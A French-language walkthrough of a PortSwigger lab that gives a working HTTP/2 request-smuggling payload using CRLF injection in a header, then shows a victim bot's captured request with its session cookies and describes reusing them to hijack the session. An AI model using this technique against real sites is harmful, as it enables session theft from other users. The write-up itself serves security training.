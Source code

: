 # Lab

https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection

## Solution

Sur ce lab on peut mener une attaque de type HTTP Request Smuggling mais le serveur accepte uniquement les requêtes HTTP/2.

De plus une protection est effective sur cet host, supprimant le header `Transfer-Encoding`.

On peut bypass ce contrôle en utilisant une attaque de type CRLF Injection sur un header.

Pour faire ça, sur l'onglet `Inspector` du `Repeater`, dans `Request headers`, on va ajouter un header random comme `Foo: bar` en ajoutant les caractères `\r\n` pour faire un retour à la ligne, suivi de `Transfer-Encoding: chunked`.

Ce qui donne `Foo: bar\r\nTransfer-Encoding: chunked`.

Le serveur ne verras que `Foo: bar` et le header `Transfer-Encoding` sera ajouté à la requête par le proxy.

Ensuite on ajoute le `Content-Length` dans `Request body` et on fait en sorte que la taille soit dynamique et corresponde à la taille totale du body (y compris la requête smugglée).

On peut utiliser le payload suivant :

```http
POST / HTTP/2
Host: 0a96009204b1f87d8419ef53007d000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Foo: bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Cookie: session=iXBAAlgNR0ylqgglCUbFpON0YQUjXpYZ
Content-Length: 830

search=
```

Sur ce lab, il y a une fonctionnalité de recherche qui affiche la liste des récentes recherches liées à notre session (cookie `session`).

Si on utilise la requête du dessus, on va smuggler notre requeête de recherche et on pourra en voir les résultats dans la page d'accueil.

On mets volontairement un `Content-Length` de 830 pour que la requête smugglée de la victime soit ajoutée à la suite.

On attends 15 secondes que le bot visite la page d'accueil et on peut voir notre recherche dans la liste des récentes recherches.

```http
GET / HTTP/1.1
Host: 0a96009204b1f87d8419ef53007d000a.web-security-academy.net
sec-ch-ua: &quot;Google Chrome&quot;;v=&quot;119&quot;, &quot;Chromium&quot;;v=&quot;119&quot;, &quot;Not?A_Brand&quot;;v=&quot;24&quot;
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: &quot;Linux&quot;
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate, br
accept-language: en-US,en;q=0.9
cookie: victim-fingerprint=SpPnEzdQLU3t9jAWTO6tYyYrXSbwAeXp; secret=UZKK99BAxZmkz6JF0M9bydRfqflWEaBn; session=DYklahU2m8RhuTRthMNkkwLC8KfRbWOu; _lab_analytics=snTApnyXwRL
```

On a plus qu'à injecter ces cookies dans notre navigateur et on valide le lab.
